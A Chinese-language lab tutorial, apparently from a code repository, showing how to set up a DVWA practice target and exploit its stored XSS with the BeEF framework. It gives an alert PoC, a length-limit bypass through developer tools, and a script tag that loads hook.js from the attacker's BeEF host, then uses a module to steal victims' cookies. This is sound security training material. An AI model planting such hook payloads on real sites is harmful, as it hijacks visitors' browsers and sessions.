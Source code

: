 # 

# BeEF-XSS渗透框架的使用

## 搭建靶场

<img src="https://pic.imgdb.cn/item/64de1693661c6c8e54451348.jpg" style="zoom: 50%;" />

将DVWA靶场安装包解压到根目录

![](https://pic.imgdb.cn/item/64de1770661c6c8e54495d72.jpg)

修改配置文件

<img src="https://pic.imgdb.cn/item/64de3533661c6c8e54c771db.jpg" style="zoom: 67%;" />

<img src="https://pic.imgdb.cn/item/64de379a661c6c8e54d477db.jpg" style="zoom:67%;" />

<img src="https://pic.imgdb.cn/item/64de3824661c6c8e54d6f1c9.jpg" style="zoom:67%;" />

​	

​	

## BeEF-XSS渗透框架的使用【KALI】

安装BeEF：`sudo apt-get install beef-xss`

运行BeEF：`beef-xss`

<img src="https://pic.imgdb.cn/item/64de3a16661c6c8e54df35d6.jpg" style="zoom:67%;" />

`ifconfig`查看KALI机的IP

<img src="https://pic.imgdb.cn/item/64de3ab9661c6c8e54e17498.jpg" style="zoom:67%;" />

在真机上访问BeEF的Web UI: `http://192.168.1.130:3000/ui/panel`

> 在真机上访问BeEF要把环回地址127.0.0.1改成KALI机的IP

<img src="https://pic.imgdb.cn/item/64de3c17661c6c8e54e6ddf2.jpg" style="zoom:67%;" />

> BeEF的默认用户名密码为beef、beef
>
> 首次登录会要求改密码，若改完的密码忘了可以通过`vim /etc/beef-xss/config.yaml`查看或修改

​	

​	

## BeEF实战

首先设置DVWA靶场的难度

<img src="https://pic.imgdb.cn/item/64de3d3c661c6c8e54ebd123.jpg" style="zoom:67%;" />

来到XSS (Stored)——存储型XSS关卡

在留言板Name那栏输入poc：`<script>alert(1)</script>`，发现字符数超过上限

<img src="https://pic.imgdb.cn/item/64de3e4d661c6c8e54f0aae4.jpg" style="zoom: 50%;" />

解决方法：`F12`打开开发者模式

![](https://pic.imgdb.cn/item/64de3fe8661c6c8e54f9dc9b.jpg)

将限制的数量改大些

改好后输入poc

<img src="https://pic.imgdb.cn/item/64de402b661c6c8e54fb0915.jpg" style="zoom:67%;" />

页面出现弹窗，说明存在XSS漏洞

<img src="https://pic.imgdb.cn/item/64de407a661c6c8e54fca740.jpg" style="zoom:50%;" />

之后刷新页面，还是出现弹窗，说明属于存储型XSS

已经用poc确定存储型XSS存在，接下来就是利用BeEF渗透测试框架来利用这个漏洞

在留言板Name那栏输入payload：`<script src="http://192.168.1.130:3000/hook.js"></script>`(记得先通过开发者模式修改字符数限制)

<img src="https://pic.imgdb.cn/item/64de4279661c6c8e5405aedc.jpg" style="zoom:50%;" />

当我们访问这个界面时恶意脚本就被执行了

去BeEF的Web UI，发现真机已经在"上线"列表中了

<img src="https://pic.imgdb.cn/item/64de4336661c6c8e5408d5ae.jpg" style="zoom:50%;" />

打开命令界面

![](https://pic.imgdb.cn/item/64de44b0661c6c8e540f0558.jpg)

- 绿色：对目标主机生效并且不可见(不会被发现)
- 橙色：对目标主机生效但可能可见(可能被发现)
- 灰色：在目标主机上的效果有待验证
- 红色：对目标主机不生效

例如"Get Cookie"模块

<img src="https://pic.imgdb.cn/item/64de4512661c6c8e54103a83.jpg" style="zoom:50%;" />

获得受害者在那个被利用了XSS漏洞网站的Cookie

![](https://pic.imgdb.cn/item/64de457d661c6c8e54119a7c.jpg)

